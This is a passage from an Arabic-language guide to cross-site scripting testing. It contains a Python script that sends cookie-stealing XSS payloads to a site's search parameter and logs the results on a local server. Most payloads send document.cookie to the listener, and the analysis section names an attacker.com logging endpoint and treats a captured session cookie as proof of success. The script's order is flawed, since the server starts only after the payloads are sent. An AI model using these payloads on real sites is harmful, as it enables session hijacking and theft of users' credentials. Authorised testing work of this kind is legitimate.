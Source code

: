 #### ب. سكربت أتمتة بسيط
- **السكربت** (مثال بلغة Python مع خادم لتسجيل البيانات):
  ```python
  from http.server import BaseHTTPRequestHandler, HTTPServer
  import urllib.parse
  import requests

  class LogServer(BaseHTTPRequestHandler):
      def do_GET(self):
          self.send_response(200)
          self.end_headers()
          query = urllib.parse.urlparse(self.path).query
          print(f"بيانات مستلمة: {urllib.parse.parse_qs(query)}")

      def do_POST(self):
          self.send_response(200)
          self.end_headers()
          content_length = int(self.headers['Content-Length'])
          post_data = self.rfile.read(content_length).decode()
          print(f"بيانات POST مستلمة: {post_data}")

  payloads = [
      "<script>fetch('http://localhost:8000/log?c='+encodeURIComponent(document.cookie))</script>",
      "<img src=x onload=\"fetch('http://localhost:8000/log?c='+document.cookie)\">",
      "<a href=\"javascript:fetch('http://localhost:8000/log?c='+document.cookie)\">Click</a>",
      "\";fetch('http://localhost:8000/log?c='+document.cookie);//",
      "<script>eval(atob('YWxlcnQoJ1hTUycp'))</script>"
  ]

  target_url = "https://example.com/search?q="
  for payload in payloads:
      try:
          encoded_payload = urllib.parse.quote(payload)
          response = requests.get(target_url + encoded_payload)
          print(f"تم إرسال: {payload}")
      except:
          print(f"فشل إرسال: {payload}")
  server = HTTPServer(('localhost', 8000), LogServer)
  print("تشغيل الخادم على http://localhost:8000")
  server.serve_forever()
  ```
- **كيف يعمل**:
  - يُشغل خادمًا محليًا لتسجيل البيانات.
  - يُرسل الحقن إلى معلمة URL عبر طلب GET.
  - يسجل البيانات المستلمة في الخادم.
- **متى يُستخدم؟**:
  - عند الحاجة لاختبار آلي لمعلمات URL أو نقاط إدخال.

#### ج. تحليل الاستجابات
- **المحاولات**:
  - قارن الاستجابات بناءً على:
    - **طلبات الشبكة**: تحقق من الطلبات المرسلة إلى `http://attacker.com/log`.
    - **وحدة التحكم**: تحقق من ظهور تنبيهات أو أخطاء في Console.
    - **تغييرات DOM**: تحقق من إعادة التوجيه أو تعديل الصفحة.
  - مثال: إذا تلقى الخادم `c=sessionid=abc123`، فهذا يؤكد نجاح الحقن.
- **كيف يعمل**:
  - يتم تسجيل الاستجابات لتحديد الحقن الناجحة.
- **متى يُستخدم؟**:
  - لتحديد النقاط القابلة للاستغلال.
